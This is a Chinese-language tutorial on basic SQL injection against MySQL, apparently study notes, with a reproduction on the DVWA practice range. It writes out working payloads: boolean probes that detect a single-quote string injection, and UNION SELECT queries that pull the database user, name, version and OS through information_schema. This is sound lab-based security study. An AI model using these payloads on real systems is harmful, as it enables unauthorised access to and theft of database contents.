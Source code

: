 # sql注入基础

- ### 漏洞原理

  对用户输入的数据没有做参数校验，sql语句没有做安全处理，导致用户可以通过参数控制sql语句从而查询一些敏感数据，甚至控制对方主机

- ### 漏洞利用

  前置知识

  ​    1、首先不同的数据库，漏洞注入的方式也不同，例如access数据库，属于独立存在的                   数据库，同时需要对其列名和表名进行猜解决，需要利用字典爆破或者偏移注入等手段

  ​    2、这里以mysql数据库举例，因为市场上mysql用到的比较多并且免费,mysql数据库 属于统一管理，不同网站之间有各种数据库，但都由mysql管理，所以mysql有数据库用户去管理，最高权限用户root

  ​    3、mysql5.0以上版本自带数据库名information_schema查询

  ​	information_schema可以查询数据库名，表名以及列名等信息

   利用流程：

  ​    0、判断注入类型，构造合适的sql语句

  ​	1、获取数据库版本-看是否符合information_schema查询 -version()

  ​	2、数据库用户是否为root权限-user() 

  ​    3、当前操作系统是否支持大小写以及文件读写-@@version_compile_os

  ​    4、数据库名称 database()

  ​	5、构造语句进行攻击

- ### 漏洞复现

  靶场DVWA windows11 phpstudy low级别



  ![image-20231128190231751](http://111.229.225.13:81/i/2023/11/28/vgmfy2-2.png)

  

构造语句1 and 1 = 1 #以及 1 and 1 = 2#页面均正常回显，因此判断不为数字型注入

1' and 1=1#有回显，1' and 1=2#无回显，判断为字符型注入并且闭合形式为单引号

![image-20231128190508809](http://111.229.225.13:81/i/2023/11/28/vi8brd-2.png)

其实可以理解为用户输入导致后端执行了非法的sql语句

```sql
select '1' 
select '1 and 1 = 1 #' 
select '1' and 1 = 2 #' 
select '1' and 1 = 1 #' 
select '1' and 1 = 2 #' 
```

掌握闭合条件，就可以构造自己想输入的sql语句

```sql

1' union select user(),database() from information_schema.schemata #
1' union select @@version_compile_os,version() from information_schema.schemata #

```

![image-20231128191110605](http://111.229.225.13:81/i/2023/11/28/vlthwf-2.png)

![image-20231128191210353](http://111.229.225.13:81/i/2023/11/28/vmeshr-2.png)

​    

同样可以理解为,后端执行下面的sql语句

```sql
select '1' union select user(),database() from information_schema.schemata #
select '1' union select @@version_compile_os,version() from information_schema.schemata #
```

### mysql基础

```sql
select [distinct] 字段名 [as 别名] from 表名 where 查询条件 [group by 分组字段 having 分组后的 查询条件] [order by 排序字段 desc/asc] [limit 分页参数]
```

```sql
union 可以合并两个及以上select语句查询的结果集
```



这里推荐一位博客[SQL注入漏洞全面总结_永不落的梦想的博客-CSDN博客](https://blog.csdn.net/m0_73185293/article/details/131754058?spm=1001.2014.3001.5501)

[[sql注入绕过篇]]
